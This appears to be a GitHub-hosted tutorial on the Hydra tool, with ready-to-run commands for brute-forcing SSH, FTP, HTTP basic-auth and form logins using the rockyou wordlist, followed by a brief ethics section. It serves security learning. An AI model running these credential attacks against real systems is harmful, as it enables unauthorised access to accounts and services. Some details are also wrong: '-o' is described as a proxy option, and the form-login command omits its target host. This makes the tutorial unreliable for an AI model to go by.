 # hydra


## Basic Tutorial on Hydra

#### Prerequisites
1. **Operating System:** Hydra works best on Linux, so ensure you have a Linux distribution installed (e.g., Kali Linux, which comes with Hydra pre-installed).
2. **Install Hydra:** If Hydra is not installed, you can install it using the following commands:
    ```bash
    sudo apt update
    sudo apt install hydra
    ```
3. **Basic Knowledge:** Understanding basic networking concepts and common protocols (like FTP, SSH, HTTP) is beneficial.

### Step 1: Understanding Hydra
Hydra is used to test login credentials against various services. It supports many protocols, including but not limited to:
- FTP
- SSH
- Telnet
- HTTP
- HTTPS
- RDP
- SMB

### Step 2: Basic Command Structure
The basic syntax for Hydra is:
```bash
hydra [options] [target] [protocol]
```
For example, a basic command to brute-force an FTP service might look like this:
```bash
hydra -l username -P /path/to/password/list.txt ftp://target-ip
```

### Step 3: Examples and Detailed Usage

#### Example 1: Brute-Forcing SSH Login
1. **Single Username and Password List:**
    ```bash
    hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.100
    ```
    - `-l admin`: Specifies a single username (`admin`).
    - `-P /usr/share/wordlists/rockyou.txt`: Path to the password list.
    - `ssh://192.168.1.100`: Target IP and protocol.

2. **Multiple Usernames and Password List:**
    ```bash
    hydra -L /path/to/userlist.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.100
    ```
    - `-L /path/to/userlist.txt`: Path to the file containing multiple usernames.

#### Example 2: Brute-Forcing HTTP Login
1. **Basic Authentication:**
    ```bash
    hydra -l admin -P /usr/share/wordlists/rockyou.txt http-get://192.168.1.100
    ```
    - `http-get://192.168.1.100`: Target IP and HTTP GET request.

2. **Form-Based Authentication:**
    ```bash
    hydra -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"
    ```
    - `http-post-form`: Specifies that it is a POST form.
    - `/login.php:user=^USER^&pass=^PASS^:F=incorrect`: Specifies the form structure. `^USER^` and `^PASS^` are placeholders for Hydra to insert usernames and passwords. `F=incorrect` specifies a failure condition (i.e., the string "incorrect" appears in the response when login fails).

#### Example 3: Brute-Forcing FTP Login
1. **Single Username and Password List:**
    ```bash
    hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://192.168.1.100
    ```
2. **Multiple Usernames and Password List:**
    ```bash
    hydra -L /path/to/userlist.txt -P /usr/share/wordlists/rockyou.txt ftp://192.168.1.100
    ```

### Step 4: Advanced Options
- **Verbose Output:** Use `-vV` for verbose output to see each attempt.
    ```bash
    hydra -l admin -P /usr/share/wordlists/rockyou.txt -vV ssh://192.168.1.100
    ```
- **Specify Number of Tasks:** Use `-t` to specify the number of parallel tasks (default is 16).
    ```bash
    hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 4 ssh://192.168.1.100
    ```
- **Use a Proxy:** To route traffic through a proxy, use the `-o` option.
    ```bash
    hydra -l admin -P /usr/share/wordlists/rockyou.txt -o proxy-address ssh://192.168.1.100
    ```

### Step 5: Interpreting Results
Once Hydra completes, it will display any successful login credentials. For example:
```
[22][ssh] host: 192.168.1.100 login: admin password: password123
```

### Step 6: Ethical Considerations
- **Permission:** Always ensure you have explicit permission to test the target systems.
- **Impact:** Be aware of the potential impact on the target system's performance.
- **Legal Implications:** Unauthorized access to computer systems is illegal and unethical.

### Step 7: Practice and Continuous Learning
- **Practice:** Regularly practice in controlled environments like Capture The Flag (CTF) challenges or lab setups.
- **Update Wordlists:** Keep your wordlists and Hydra updated to stay effective against new security measures.

### Conclusion
Hydra is a powerful tool for password cracking in cybersecurity. This tutorial provides a foundational understanding of how to use Hydra effectively. Always use Hydra responsibly and ethically within the boundaries of the law and organizational policies.